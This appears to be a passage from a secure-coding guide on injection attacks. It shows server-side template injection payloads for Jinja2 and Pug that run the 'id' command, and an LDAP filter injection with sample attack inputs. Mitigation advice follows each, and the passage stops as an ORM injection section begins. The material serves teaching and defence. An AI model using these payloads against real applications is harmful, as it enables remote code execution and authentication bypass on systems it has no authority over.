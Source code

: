 ### Jinja2 RCE

```jinja2
{{''.__class__.mro()[1].__subclasses__()[157]
    .__init__.__globals__['__builtins__']['__import__']('os')
    .popen('id').read()}}
```

### Pug / Jade RCE

```pug
#{process.mainModule.require('child_process')
   .execSync('id')}
```

### Mitigation

- Enable the engine’s **sandbox** (e.g. `jinja2.sandbox.SandboxedEnvironment`)
    
- Escape or strip user input before rendering (`{{ variable | e }}` in Jinja2)
    
- Disable dangerous tags such as `{php}` in Smarty
    
- Use Content Security Policy where applicable
    

---

## 5  LDAP Injection

LDAP filters are vulnerable when user input is not escaped:

```ldap
(&(uid={userInput})(userPassword={passInput}))
```

**Attack**

```
userInput = *)(uid=*
passInput = anything)
```

Final filter:

```ldap
(&(uid=*)(uid=*)(userPassword=anything))
```

Mitigation: escape metacharacters (`* ( ) \ NUL`) and prefer parameterised LDAP APIs.

---

## 6  ORM Injection

If an application escapes SQL but still builds dynamic clauses, it may be exploitable at the ORM layer.
